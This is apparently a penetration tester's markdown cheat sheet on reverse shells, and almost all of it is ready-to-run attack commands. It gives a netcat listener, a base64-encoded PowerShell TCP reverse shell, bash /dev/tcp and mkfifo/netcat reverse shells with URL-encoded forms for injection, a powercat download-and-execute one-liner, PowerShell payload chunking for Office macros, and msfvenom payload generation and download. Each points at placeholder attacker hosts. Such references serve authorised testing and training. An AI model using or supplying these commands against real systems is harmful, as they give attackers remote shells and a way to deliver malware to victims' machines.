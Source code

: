 # Reverse shells

## References

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.revshells.com/
- Hacktricks: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells

## Listener

```
nc -nvlp PortAtt
```

## URL encoding

- https://en.wikipedia.org/wiki/Percent-encoding
- https://www.urlencoder.io/

## Powershell

```
$ pwsh
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("attackerIp",attackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)

cmd> powershell -enc xyz
```

## Bash 

```
bash -c "bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIP $AttackePort > /tmp/f
rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%20%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20$AttackerIP%20$AttackePort%20%3E%20%2Ftmp%2Ff
```
Other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Powercat - Office

```
IEX(New-Object System.Net.WebClient).DownloadString('http://IpAtt/powercat.ps1');powercat -c IpAtt -p PortAtt -e powershell

str = "powershell.exe -nop -w hidden -e xxxx..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

cd /usr/share/powershell-empire/empire/server/data/module_source/management
python3 -m http.server 80
```

## Mfsvenom

```
msfvenom -h
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f elf > shell.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f exe > windows_reverse.exe
Invoke-WebRequest -Uri http://IpAttacker/windows_reverse.exe -OutFile windows_reverse.exe
```
